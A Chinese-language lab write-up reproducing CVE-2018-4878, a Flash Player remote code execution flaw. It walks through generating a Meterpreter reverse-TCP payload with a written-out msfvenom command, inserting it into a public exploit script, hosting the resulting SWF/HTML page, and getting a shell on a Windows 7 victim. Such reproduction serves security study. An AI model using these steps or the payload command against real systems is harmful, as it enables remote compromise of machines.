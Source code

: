 （CVE-2018-4878）Adobe Flash Player 远程代码执行漏洞
====================================================

一、漏洞简介
------------

2018年1月31日，韩国CERT发布公告称发现Flash
0day漏洞的野外利用，攻击者执行针对性的攻击；2月1日Adobe发布安全公告，确认Adobe
Flash Player 28.0.0.137
及早期版本存在远程代码执行漏洞（CVE-2018-4878）；2月2日，Cisco
Talos团队发布了事件涉及攻击样本的简要分析；2月7日，Adobe发布了CVE-2018-4878漏洞的安全补丁。

二、漏洞影响
------------

Adobe Flash Player \<= 28.0.0.137

三、复现过程
------------

-   1.环境    kail: `192.168.184.128`    win7sp1: `192.168.184.131`    exp: `CVE-2018-4878-master.zip `    flash: `AdobeFlashPlayer28.0.0.161正式版.zip`
-   2.利用msfvenom生成对应的shellcode代码

```{=html}
<!-- -->
```
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.184.128 lport=4444 -f python>shellcode.txt

![1.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId24.png)

-   3.进入 CVE-2018-4878-master
    目录，编辑`CVE-2018-4878.py`文件，将msfvenom生成的代码覆盖掉原来的代码

![2.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId25.png)

-   4.修改 swf 文件及 html 文件位置

![3.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId26.png)

-   5.Python 执行 CVE-2018-4878-master.py 代码，会生成两个文件，一个 swf
    文件，一个 html 文件

![4.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId27.png)

-   6.把生成的两个文件放到apache web目录下

![5.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId28.png)

-   7.通过msf开启反弹sehll监听

![6.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId29.png)

-   8.靶机上win7安装存在漏洞的adobe flash player 28.0.0.126

![7.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId30.png)

-   9.通过win7自带的ie浏览器进行访问`192.168.184.128/index2.html`

![8.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId31.png)

-   10.Kail上成功获取到meterpreter shell

![9.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId32.png)

![10.png](resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId33.png)
